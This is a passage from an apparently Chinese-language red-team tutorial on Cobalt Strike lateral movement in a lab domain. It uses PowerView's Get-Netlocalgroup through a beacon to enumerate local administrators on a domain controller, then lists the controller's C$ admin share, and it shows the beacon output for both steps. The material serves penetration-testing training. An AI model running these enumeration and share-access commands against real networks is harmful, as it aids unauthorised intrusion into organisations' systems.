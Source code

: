 **PowerView 模块**

PowerView 使用下面的命令能够在一个主机上找到本地管理员，这条命令实际上通过管理员群组找到同样的群组并且把成员名单返回出来。

```powershell
Get-Netlocalgroup -hostname TARGET
```

```powershell
beacon> powershell Get-Netlocalgroup -Hostname WinDC
[*] Tasked beacon to run: Get-Netlocalgroup -Hostname WinDC
[+] host called home, sent: 385 bytes
[+] received output:

ComputerName : WinDC
AccountName  : teamssix.com/Administrator
IsDomain     : True
IsGroup      : False
SID          : S-1-5-22-3301978333-983314215-684642015-500
Description  : 
Disabled     : 
LastLogin    : 2020/8/17 22:21:23
PwdLastSet   : 
PwdExpired   : 
UserFlags    : 

ComputerName : WinDC
AccountName  : teamssix.com/Daniel
……内容过多，余下部分省略……
```

## 3、无需恶意软件

如果一个系统信任我们为本地管理员权限，那么我们可以在那个系统上干什么呢？

**查看共享文件**

比如我们可以通过运行下面的命令来列出 C:\foo 的共享文件

```powershell
shell dir \\host\C$\foo
```

```powershell
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,393,984 可用字节
```
